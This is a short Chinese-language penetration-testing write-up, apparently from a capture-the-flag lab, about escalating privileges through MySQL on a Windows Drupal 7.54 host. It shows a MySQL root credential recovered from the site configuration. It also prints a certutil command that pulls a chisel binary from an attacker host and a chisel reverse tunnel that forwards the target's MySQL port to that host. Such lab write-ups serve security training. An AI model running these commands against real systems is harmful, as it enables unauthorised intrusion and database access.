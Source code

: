 ## UDF提权

```
C:\inetpub\drupal-7.54>netstat -ano
 TCP    0.0.0.0:3306           0.0.0.0:0              LISTENING       1080
```

找到网站配置文件里的 mysql 的账号密码

```
root:mysql123!root
```

但是当前账号不能直接执行mysql的命令，可能访问受限，也可能交互性不好

```
C:\inetpub\drupal-7.54>whoami
whoami
nt authority\iusr
```

### 端口转发

[Release v1.9.1 · jpillora/chisel · GitHub](https://github.com/jpillora/chisel/releases/tag/v1.9.1)

靶机下载

```
certutil.exe -urlcache -split -f http://10.10.16.3:5555/chisel1.8.1.exe chisel1.8.1.exe
```

kali执行

```bash
└─# chisel server -p 9595 reverse
```

靶机执行

```
chisel1.8.1.exe client 10.10.16.3:9595 R:3306:localhost:3306
```



### 截图

<img src=".\图片\Snipaste_2023-08-31_17-34-29.png" alt="Snipaste_2023-08-31_17-34-29" style="zoom:80%;" />

<img src=".\图片\Snipaste_2023-08-31_17-35-07.png" alt="Snipaste_2023-08-31_17-35-07" style="zoom:80%;" />

